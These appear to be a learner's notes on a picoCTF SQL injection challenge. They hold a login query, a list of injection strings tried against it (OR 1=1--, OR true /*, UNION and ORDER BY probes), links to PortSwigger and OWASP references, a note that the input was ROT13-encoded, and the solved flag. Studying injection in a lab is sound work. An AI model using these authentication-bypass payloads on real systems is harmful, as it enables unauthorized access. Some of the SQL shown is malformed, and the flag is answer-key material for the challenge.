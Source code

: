 ```sql
SELECT * FROM LAVADA WHERE username='admin' AND password='' UNION SELECT * FROM * WHERE username='admin'
```
[SQL Injection: Bypassing Common Filters - PortSwigger](https://portswigger.net/support/sql-injection-bypassing-common-filters)
[SQL injection cheat sheet | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/cheat-sheet)
[SQL Injection Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
[SQL injection UNION attacks | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/union-attacks)

``` SQL
SELECT * FROM LAVADA WHERE username='admin' AND password=password_hash($password, PASSWORD_BCRYPT);
```

`"hi", PASSWORD_BCRYPT); OR 1=1--`
`"hi", PASSWORD_BCRYPT); OR 1=1 /*`
`"hi", PASSWORD_BCRYPT); OR true /*`
`"hi", PASSWORD_BCRYPT) OR true --`
`[], PASSWORD_BCRYPT); OR true --`
`[], PASSWORD_BCRYPT) OR true --`
`"hi", PASSWORD_BCRYPT) -ORDER BY 2 /*`

NOW I ENTERED ALL CHARS IN abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ AND found its a ROT 13 so entered this

![[Pasted image 20230130145736.png]]

![[Pasted image 20230130145641.png]]
``picoCTF{3v3n_m0r3_SQL_4424e7af}``
